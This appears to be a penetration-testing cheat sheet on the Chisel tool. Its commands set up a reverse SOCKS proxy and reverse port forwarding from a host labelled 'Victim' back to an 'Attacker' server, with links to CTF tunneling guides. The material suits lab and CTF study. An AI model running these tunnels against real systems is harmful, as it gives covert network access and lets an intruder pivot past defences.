 # Chisel

## Socks

```
./chisel server -p 8080 --reverse #Server -- Attacker
./chisel-x64.exe client 10.10.14.3:8080 R:socks #Client -- Victim
#And now you can use proxychains with port 1080 (default)

./chisel server -v -p 8080 --socks5 #Server -- Victim (needs to have port 8080 exposed)
./chisel client -v 10.10.10.10:8080 socks #Attacker
```

## Port Forwarding

```
./chisel_1.7.6_linux_amd64 server -p 12312 --reverse #Server -- Attacker
./chisel_1.7.6_linux_amd64 client 10.10.14.20:12312 R:4505:127.0.0.1:4505 #Client -- Victim
```

## Links

{% embed url="https://github.com/jpillora/chisel/releases" %}

{% embed url="https://dev.to/jmau111/getting-started-with-chisel-in-ctfs-o76/" %}

{% embed url="https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html" %}

{% embed url="https://goteleport.com/blog/ssh-tunneling-explained/" %}
